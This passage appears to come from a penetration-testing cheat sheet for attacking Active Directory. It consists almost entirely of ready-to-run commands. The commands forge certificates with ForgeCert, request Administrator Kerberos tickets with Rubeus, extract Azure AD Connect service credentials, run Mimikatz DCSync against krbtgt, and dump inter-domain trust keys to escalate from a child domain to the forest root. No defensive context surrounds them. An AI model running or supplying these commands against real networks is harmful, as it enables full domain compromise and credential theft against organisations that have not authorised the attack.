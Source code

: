 ````
```
- Save cert + key in a cert.pem file

#### Transform cert to pfx
- Set a password, password
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Create a forged certificate
```
.\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "password" --Subject "CN=User" --SubjectAltName "Administrator@<DOMAIN>" --NewCertPath fake.pfx --NewCertPassword "password"
```

#### Create a TGT
```
cat cert.pfx | base64 -w 0
.\Rubeus.exe asktgt /user:Administrator /domain:<DOMAIN> /certificate:<BASE64 CERT> /password:password /nowrap
```

#### Write TGT kirbi
```
[System.IO.File]::WriteAllBytes("C:\Users\public\<USER>.kirbi", [System.Convert]::FromBase64String("<TICKET STRING>"))
```
 
#### Then load TGT and request TGS or access systems as this user.
 
## Cross Domain attacks
## Azure AD
#### Enumerate where PHS AD connect is installed
```
Get-DomainUser -Identity "MSOL_*" -Domain <DOMAIN>
```

#### On the AD connect server extract MSOL_ Credentials
```
.\adconnect.ps1
```

#### Run cmd as MSOL_
```
runas /user:<DOMAIN>\<USER> /netonly cmd
```

#### Execute DCSync
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

## Child to Forest Root
### Trust key
- Abuses SID History
#### Dump trust keys
- Look for in trust key from child to parent (first command)
- The mimikatz option /sids is forcefully setting the SID history for the Enterprise Admin group for the Forest Enterprise Admin Group
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <COMPUTERNAME>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<CHILD DOMAIN>\<PARENT DOMAIN>$"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

````